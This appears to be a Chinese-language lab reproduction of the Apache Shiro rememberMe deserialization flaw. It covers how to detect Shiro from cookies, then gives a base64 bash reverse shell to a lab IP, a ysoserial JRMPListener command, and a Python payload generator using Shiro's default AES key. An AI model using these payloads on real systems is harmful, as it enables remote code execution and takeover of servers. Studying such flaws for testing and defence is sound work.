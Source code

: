 #### 漏洞复现

判断一个页面的登录**是否使用了shiro框架**进行身份验证、授权、密码和会话管理。

判断方法：勾选记住密码选项后，点击登录，抓包，观察请求包中是否有rememberme字段，响应包中是否有Set-cookie:rememberMe=deleteMe字段。类似于下图这样。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-689e69b9a3a4c611d9fda7b87ce39c95fc1bad57.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-b297bcadedf75280c07cabc68dd9f21b83fb65e1.png)

只要响应包中出现rememberMe=deleteMe字段就说明存在漏洞。这样说片面的，**如果出现rememberMe=deleteMe字段应该是仅仅能说明登录页面采用了shiro进行了身份验证而已，并非直接就说明存在漏洞**

- 未登录的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie里也没有deleteMe字段登录失败的话，不管有没有勾选RememberMe字段，返回包都会有 rememberMe= deleteMe 字段
- 不勾选RememberMe，登录成功的话，返回包set-Cookie里有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有RememberMe字段
- 勾选RememberMe，登录成功的话，返回包set-Cookie里有rememberMe=deleteMe字段，还会有remember字段，之后的所有请求中Cookie都会有rememberMe字段
- 或者可以在cookie后面自己加—个rememberMe=1,看返回包有没有rememberMe= deleteMe

```php
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjEyOS80NDQ0IDA+JjE=
```

```php
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjEyOS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}'
```

使用shiro-exploit.py获取shiro的默认key (工具地址：[https://github.com/insightglacier/Shiro\_exploit](https://github.com/insightglacier/Shiro_exploit))

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-34284e97a4e380ec67356ed70181b28e53f88eb7.png)

使用shiro.py生成payload(需要自己改key，shiro.py代码如下：)  
命令：`shiro.py 192.168.17.132:6666`  
shiro.py:

```php
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print ("rememberMe={0}".format(payload.decode()))
```
